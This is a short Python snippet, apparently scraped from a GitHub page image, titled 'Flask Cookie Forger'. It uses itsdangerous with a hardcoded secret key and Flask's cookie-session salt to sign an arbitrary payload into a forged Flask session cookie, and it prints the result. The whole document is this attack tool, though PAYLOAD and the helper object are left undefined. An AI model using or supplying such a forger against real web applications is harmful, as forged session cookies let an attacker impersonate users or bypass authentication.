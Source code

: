 ```python
signer = URLSafeTimedSerializer(
    'secret-key', salt='cookie-session',
    serializer=session_json_serializer,
    signer_kwargs={'key_derivation': 'hmac', 'digest_method': sha512}
)

def forgeSession():
    gen_payload = signer.dumps(PAYLOAD)
    p.print_good("Generated signed cookie : {}".format(gen_payload))

if __name__ == '__main__':

    p.print_title("Flask Cookie Forger")
    
    # Forge
    p.print_separator(suffix="FORGING COOKIE", separator='=')
    t2 = p.start_progress(task="Forge Cookie with payload {} ...".format(PAYLOAD), enable_dots=False)
    forgeSession()
    p.stop_progress(t2)
``` 

